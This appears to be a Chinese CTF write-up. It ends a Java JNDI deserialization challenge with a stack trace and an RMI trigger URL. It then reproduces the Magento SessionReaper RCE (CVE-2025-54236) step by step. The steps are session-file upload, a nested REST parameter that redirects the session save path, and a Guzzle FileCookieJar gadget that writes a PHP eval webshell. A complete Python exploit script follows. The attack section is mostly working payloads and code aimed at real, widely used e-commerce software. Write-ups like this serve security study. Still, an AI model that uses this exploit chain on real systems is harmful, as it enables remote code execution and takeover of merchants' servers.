at com.fasterxml.jackson.databind.ser.std.SerializableSerializer.serialize(SerializableSerializer.java:20)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:503)
at com.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:342)
at com.fasterxml.jackson.databind.ObjectWriter$Prefetch.serialize(ObjectWriter.java:1587)
at com.fasterxml.jackson.databind.ObjectWriter._writeValueAndClose(ObjectWriter.java:1289)
at com.fasterxml.jackson.databind.ObjectWriter.writeValueAsString(ObjectWriter.java:1140)
at com.fasterxml.jackson.databind.node.InternalNodeMapper.nodeToString(InternalNodeMapper.java:33)
at com.fasterxml.jackson.databind.node.BaseJsonNode.toString(BaseJsonNode.java:242)
at java.lang.String.valueOf(String.java:4220)
at java.lang.StringBuilder.append(StringBuilder.java:173)
at java.util.AbstractCollection.toString(AbstractCollection.java:457)
at java.util.Vector.toString(Vector.java:1083)
at java.lang.String.valueOf(String.java:4220)
at javax.swing.undo.CompoundEdit.toString(CompoundEdit.java:266)
at javax.swing.undo.UndoManager.toString(UndoManager.java:695)
at java.lang.String.valueOf(String.java:4220)
at javax.swing.event.EventListenerList.add(EventListenerList.java:213)
at javax.swing.event.EventListenerList.readObject(EventListenerList.java:309)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:569)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1100)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2423)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2257)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1733)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:509)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:467)
at org.apache.tomcat.dbcp.dbcp2.datasources.InstanceKeyDataSourceFactory.deserialize(InstanceKeyDataSourceFactory.java:89)
at org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSourceFactory.getNewInstance(PerUserPoolDataSourceFactory.java:56)
at org.apache.tomcat.dbcp.dbcp2.datasources.InstanceKeyDataSourceFactory.getObjectInstance(InstanceKeyDataSourceFactory.java:163)
at org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSourceFactory.getObjectInstance(PerUserPoolDataSourceFactory.java:31)
at com.sun.naming.internal.NamingManagerHelper.getObjectInstance(NamingManagerHelper.java:76)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:213)
at org.example.JndiLookupClient.main(JndiLookupClient.java:22)
```

最后 docker 测试的时候换成`host.docker.internal`即可
发包

```java
http://127.0.0.1:8080/?json=%7B%22name%22%3A%22x%22%2C%22word%22%3A%22y%22%2C%22url%22%3A%22rmi%3A%2F%2Fhost.docker.internal%3A1099%2Fn1cat%22%7D
```





## this-challenge-has-been-ruined

这个题是关于上个月 Magento RCE 漏洞 CVE-2025-54236 的复现，在我计划出这个题的时候，这个漏洞并没有引起什么重视（大概），也几乎没有分析。但实际上使用 Magento 的网站非常多，实际上的危害也比较严重。
在我开始独立分析这个漏洞的时候，能获取到的信息只有：
Our security team successfully reproduced one possible avenue to exploit SessionReaper, but there are likely multiple vectors. While we cannot disclose technical details that could aid attackers, the vulnerability follows a familiar pattern from last year's CosmicSting attack. The attack combines a malicious session with a nested deserialization bug in Magento's REST API.The specific remote code execution vector appears to require file-based session storage. However, we recommend merchants using Redis or database sessions to take immediate action as well, as there are multiple ways to abuse this vulnerability. -- sansec.io
和 CosmicSting 的分析报告 <https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102>。
还有本次漏洞的补丁 <https://github.com/magento/magento2/commit/8075ae19428870e3b6e4b8f9e0705389328d4515>。
综合上面的线索我们可以知道，这个RCE漏洞与 Session 相关，且漏洞形式与之前的 XXE 漏洞相同。
不过当我准备把他当作今年N1CTF的题目时，[slcyber.io](https://slcyber.io/assetnote-security-research-center/why-nested-deserialization-is-still-harmful-magento-rce-cve-2025-54236/)突然发布了关于这个漏洞的分析，就在比赛前的一周，这让我非常沮丧，甚至考虑放弃这道题目。但是这个漏洞本身的利用方法确实非常巧妙，我还是决定把它放出来。但是我不得不删除掉一些代码，以免我的题目被秒杀。=\_=
非常有趣的是 CVE-2025-54236 的作者 Blaklis@The Flat Network Society，竟然做了这个用他的 CVE 出的题。
这些大概就是题目的内容，然后题目又是黑盒，当时我人工分析是没成功的，但是没想到过了半年 AI 在 20 分钟内解决了这道题
题面基本把方向给出来了：SessionReaper，malicious session，nested deserialization in Magento REST API。首页也很直接，`X-Magento-\*` 头、Luma 静态资源、`PHPSESSID` 都能看出来是 Magento。

```http
GET /

HTTP/1.1 200 OK
Set-Cookie: PHPSESSID=...; HttpOnly; SameSite=Lax
X-Magento-Cache-Control: max-age=86400, public, s-maxage=86400
X-Magento-Tags: cat_c,store,cms_b,cms_p_2,FPC
```

我一开始的思路是先解决两个问题：

* 怎么把一个 `sess\_<id>` 文件写到 Web 能碰到的位置；
* 哪个 REST 参数能一路带到 session 初始化那里。

第二点才是这题有意思的地方。公开链里常见的入口被题目处理过，直接照抄基本走不通。
Magento 前台有个地址文件上传接口：

```bash
curl -i -X POST http://127.0.0.1:8080/customer/address_file/upload
```

直接 POST 会跳回首页，cookie 里还能看到 `Invalid Form Key`：

```http
HTTP/1.1 302 Found
Set-Cookie: mage-messages=...Invalid%20Form%20Key...
Location: http://127.0.0.1/
```

加上 XHR 头就不一样了：

```bash
curl -i -X POST \
  -H 'X-Requested-With: XMLHttpRequest' \
  http://127.0.0.1:8080/customer/address_file/upload
```

返回的是正常 JSON：

```json
{"error":"No files for upload.","errorcode":0}
```

于是试一下 `custom\_attributes[country\_id]` 这个字段。文件名不要扩展名，后面正好当 session 文件用：

```bash
printf 'probe|s:2:"ok";' > /tmp/probe
curl -s -X POST \
  -H 'X-Requested-With: XMLHttpRequest' \
  -F 'custom_attributes[country_id]=@/tmp/probe;filename=sess_probe;type=application/octet-stream' \
  http://127.0.0.1:8080/customer/address_file/upload
```

返回里有两个很有用的字段：

```json
{
  "name":"sess_probe",
  "file":"/s/e/sess_probe",
  "url":"http://127.0.0.1/customer/address/viewfile/file/cy9lL3Nlc3NfcHJvYmU~/"
}
```

`file` 里的 `/s/e/` 是按文件名前两个字符做的分散目录。后面 REST 报错栈里能看到 Magento 入口在 `/var/www/magento/pub/index.php`，所以这个上传目录可以拼成：

```latex
/var/www/magento/pub/media/customer_address/s/e
```

如果之后能控制 `session.save\_path` 到这个目录，再带 `PHPSESSID=probe`，PHP 会读的就是：

```latex
/var/www/magento/pub/media/customer_address/s/e/sess_probe
```

接下来找 REST 触发点。`estimate-shipping-methods` 这个接口挺适合试，因为 guest 路由不需要登录：

```bash
curl -s -X POST \
  -H 'Content-Type: application/json' \
  -d '{}' \
  http://127.0.0.1:8080/rest/all/V1/guest-carts/123/estimate-shipping-methods
```

空 body 会报缺 `address`：

```json
{
  "message":"\"%fieldName\" is required. Enter and try again.",
  "parameters":{"fieldName":"address"}
}
```

trace 里能看到这几个点：

```latex
Magento\Framework\Webapi\ServiceInputProcessor->process()
Magento\Webapi\Controller\Rest\InputParamsResolver->resolve()
Magento\Quote\Model\GuestCart\GuestShippingMethodManagement->estimateByExtendedAddress()
```

这里可以利用 Magento 的报错当 oracle。字段不对时，它会直接告诉你当前层不吃这个字段：

```bash
curl -s -X POST \
  -H 'Content-Type: application/json' \
  -d '{"address":{"xxx":{}}}' \
  http://127.0.0.1:8080/rest/all/V1/guest-carts/123/estimate-shipping-methods
```

```json
{
  "message":"\"%fieldName\" is not supported. Correct the field name and try again.",
  "parameters":{"fieldName":"Xxx"}
}
```

如果字段被接受，报错就会继续往下一层走；如果整个 `address` 处理完了，最后会进入业务逻辑，因为 cartId 不存在而返回 404。
公开思路里会很自然地去试 quote/payment 相关字段，但这里走不通：

```bash
curl -s -X POST \
  -H 'Content-Type: application/json' \
  -d '{"address":{"quote":{"payment":{}}}}' \
  http://127.0.0.1:8080/rest/all/V1/guest-carts/123/estimate-shipping-methods
```

```json
{
  "message":"\"%fieldName\" is not supported. Correct the field name and try again.",
  "parameters":{"fieldName":"Quote"}
}
```

所以这条路不用继续硬撞，换别的 address 参数。
最后试出来的是这条

```json
{
  "address": {
    "directoryData": {
      "context": {
        "urlBuilder": {
          "session": {
            "sessionConfig": {
              "savePath": "/var/www/magento/pub/media/customer_address/s/e"
            }
          }
        }
      }
    }
  }
}
```

中间怎么确认的也比较简单。比如：

```latex
address.directoryData.xxx                  -> Xxx not supported
address.directoryData.context.xxx          -> Xxx not supported
address.directoryData.context.urlBuilder.xxx -> Xxx not supported
...
```

这种结果表示前面的字段已经被吃掉了，错误发生在更深一层。一直试到 `sessionConfig.savePath`，把路径故意写成不存在的目录：

```json
{
  "address": {
    "directoryData": {
      "context": {
        "urlBuilder": {
          "session": {
            "sessionConfig": {
              "savePath": "/tmp/not-real"
            }
          }
        }
      }
    }
  }
}
```

这时页面直接吐了 PHP warning：

```latex
Warning: SessionHandler::read(): open(/tmp/not-real/sess_<id>, O_RDWR) failed: No such file or directory
```

到这里就够了。`savePath` 会影响 `session\_start()` 读取 session 文件的位置。把它改成上传目录，再用同一个 sid，就能触发我们上传的 session 内容。
整个触发流程其实就是：

```latex
上传 sess_<sid>
  -> REST 里设置 sessionConfig.savePath
  -> Cookie 带 PHPSESSID=<sid>
  -> session_start() 读取上传目录里的 sess_<sid>
  -> 反序列化 session 内容
```

REST 最后返回 404 没关系，因为对象处理和 session 初始化发生在业务查 cartId 之前。
PHP file session 的格式是：

```latex
变量名|serialize(value)
```

变量名随便取，我这里用 `\_`。后面塞一个 Guzzle 的 `FileCookieJar`：

```latex
_|O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{...}
```

这个 gadget 很常见，析构时会把 cookie jar 保存到文件。需要控制的字段就两个：

```latex
filename = pub/exploit.php
cookie Value = <?=eval($_REQUEST[1]);?>
```

因为 `filename`、`cookies` 这些是私有属性，序列化字段名要写成这种形式：

```latex
\x00GuzzleHttp\Cookie\FileCookieJar\x00filename
```

最后写出的 `pub/exploit.php` 大概长这样：

```json
[{"Expires":1,"Discard":false,"Value":"<?=eval($_REQUEST[1]);?>"}]
```

看起来是 JSON，但它是 `.php` 文件。请求这个文件时，外面的 JSON 字符会直接输出，`<?= ... ?>` 里面的 PHP 会执行。后面直接拿它读 flag 文件就行。
exp 如下

```python
#!/usr/bin/env python3
import random
import string
import sys

import requests

BASE = sys.argv[1].rstrip('/') if len(sys.argv) > 1 else 'http://127.0.0.1:8080'
SAVE_PATH = '/var/www/magento/pub/media/customer_address/s/e'
WEBSHELL = 'pub/exploit.php'
SHELL_CODE = '<?=eval($_REQUEST[1]);?>'

def build_session_payload(filename: str, value: str) -> bytes:
    return (
        '_|O:31:"GuzzleHttp\\Cookie\\FileCookieJar":4:{'
        's:36:"\x00GuzzleHttp\\Cookie\\CookieJar\x00cookies";a:1:{i:0;'
        'O:27:"GuzzleHttp\\Cookie\\SetCookie":1:{'
        's:33:"\x00GuzzleHttp\\Cookie\\SetCookie\x00data";a:3:{'
        's:7:"Expires";i:1;s:7:"Discard";b:0;'
        f's:5:"Value";s:{len(value)}:"{value}";'
        '}}}'
        's:39:"\x00GuzzleHttp\\Cookie\\CookieJar\x00strictMode";N;'
        f's:41:"\x00GuzzleHttp\\Cookie\\FileCookieJar\x00filename";s:{len(filename)}:"{filename}";'
        's:52:"\x00GuzzleHttp\\Cookie\\FileCookieJar\x00storeSessionCookies";b:1;'
        '}'
    ).encode('latin1')

sid = 'sess' + ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(20))
s = requests.Session()

r = s.post(
    f'{BASE}/customer/address_file/upload',
    headers={'X-Requested-With': 'XMLHttpRequest'},
    files={
        'custom_attributes[country_id]': (
            f'sess_{sid}',
            build_session_payload(WEBSHELL, SHELL_CODE),
            'application/octet-stream',
        )
    },
    timeout=20,
)
print('[+] upload:', r.status_code)

trigger = {
    'address': {
        'directoryData': {
            'context': {
                'urlBuilder': {
                    'session': {
                        'sessionConfig': {
                            'savePath': SAVE_PATH,
                        }
                    }
                }
            }
        }
    }
}
r = s.post(
    f'{BASE}/rest/all/V1/guest-carts/123/estimate-shipping-methods',
    json=trigger,
    cookies={'PHPSESSID': sid},
    timeout=30,
)
print('[+] trigger:', r.status_code, '(404 is fine)')

r = s.post(
    f'{BASE}/exploit.php',
    data={'1': 'echo shell_exec("cat /this-is-the-flag-* 2>/dev/null");'},
    timeout=10,
)
print(r.text)

## python3 exp.py http://127.0.0.1:8080
```

---
haox 之前还在得物实习的时候就复现了，忘记发了，说实话第二题都忘记当时是怎么做的了，当时 GPT 还只有 5.3 很不成熟，现在都 6.1 了😄